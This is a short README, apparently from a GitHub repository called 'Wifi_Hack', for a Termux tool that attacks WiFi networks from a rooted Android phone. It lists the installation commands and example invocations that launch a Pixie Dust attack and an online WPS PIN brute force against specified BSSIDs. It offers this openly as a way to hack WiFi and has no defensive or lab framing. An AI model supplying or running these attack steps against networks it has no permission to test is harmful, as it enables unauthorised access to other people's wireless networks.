 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src=".assets/demo.gif"></p>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install -y root-repo -y
pkg install -y git tsu python termux-api wpa-supplicant pixiewps iw
git clone https://github.com/ITSN0B1T4/wifi_hack
cd wifi_hack
chmod +x wifi.py
```
#### Help : `sudo python wifi.py --help`
#### Example : `sudo python wifi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wifi.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**


#### Real Author : rofl0r => BiRi_B@B@
